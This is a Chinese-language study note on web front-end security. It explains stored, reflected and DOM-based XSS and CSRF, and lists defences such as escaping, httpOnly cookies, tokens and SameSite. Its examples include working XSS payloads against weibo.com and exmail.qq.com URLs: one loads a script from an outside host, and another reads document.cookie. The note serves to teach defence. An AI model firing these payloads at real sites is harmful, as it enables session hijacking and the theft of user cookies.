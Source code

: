  [XSS攻击](https://tech.meituan.com/2018/09/27/fe-security.html): 注入恶意代码

    * 分类
        * 存储型XSS 
            * 攻击者将恶意代码提交到目标网站的数据库中。
            * 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器
        * 反射型XSS
            * 攻击者构造出特殊的 URL，其中包含恶意代码。
            * 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。（比如URL中的参数）
        * DOM型XSS
            * 攻击者构造出特殊的 URL，其中包含恶意代码。
            * 用户打开带有恶意代码的 URL。
            * 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
    * 解决
        * 转义页面上的输入内容和输出内容
        * cookie 设置 httpOnly,禁止javascript读取cookie
        * 设置验证码，防止脚本冒充提交危险操作


例如：

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`
```js
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```
攻击者发现`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 uin、domain 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：
```js
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```
用户通过文本框输入的信息来显示在页面上，那么在文本框输入如下内容
`<img src = "abc" onerror = "alert(1)" />`
```
```
#### CSRF: 跨站请求伪造，防护:

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。
* 解决办法
    * 验证HTTP Referer
        * Referer字段记录请求来源地址 检验是否是同一个源
    * 在请求地址中添加takon验证
        *  HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token
        * 服务器现在页面埋入特定标志，在用户请求时带上此标记，来判断请求是否合法
    * 不被第三方网站访问到用户的cookie sameSite标记